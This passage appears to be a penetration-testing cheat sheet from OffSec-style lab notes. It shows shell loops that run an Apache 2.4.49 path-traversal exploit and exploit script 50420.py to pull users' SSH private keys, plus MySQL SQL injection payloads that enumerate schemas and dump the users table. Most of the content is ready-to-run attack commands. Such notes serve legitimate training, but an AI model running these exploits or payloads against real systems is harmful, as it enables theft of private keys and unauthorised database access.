 ```shell
# 1
for host in id_rsa id_ecdsa id_ed25519 id_dsa id_ed25519_sk id_ecdsa_sk;
do 
	echo $host && ./apache_2.4.49_rce.sh targetst.xt /home/offsec/.ssh/$host;
done

# 2
for host in id_rsa id_ecdsa id_ed25519 id_dsa id_ed25519_sk id_ecdsa_sk;
do
    for user in $(cat creds.txt);
    do
        echo $user $host && python 50420.py http://192.168.241.244 /home/$user/.ssh/$host;
    done 
done
```







### 3. File Upload

### 4. SQLi

- MySQL

  ```
  # connect from kali
  mysql -u root -p'root' -h 192.168.50.16 -P 3306
  
  # check sql version
  select version();
  
  # check current database user
  select system_user();
  
  # check databases
  show databases;
  
  # select databases;
  use <database>;
  
  # show tables;
  show tables;
  
  # check tables columns;
  show columns from <table>;
  
  select table_name from information_schema.tables
  select column_name from information_schema.columns where table_name='users'
  
  offsec' OR 1=1 -- //
  ' OR 1=1 in (SELECT * FROM users) -- //
  
  ' OR 1=1 in (SELECT database()) -- //
  ' OR 1=1 in (SELECT schema_name FROM information_schema.schemata) -- //
  
  ' OR 1=1 in (SELECT table_name FROM information_schema.columns where table_schema = "offsec") -- //
  
  ' OR 1=1 in (SELECT column_name FROM information_schema.columns where table_schema ="offsec" and table_name = "users") -- // 
  
  ```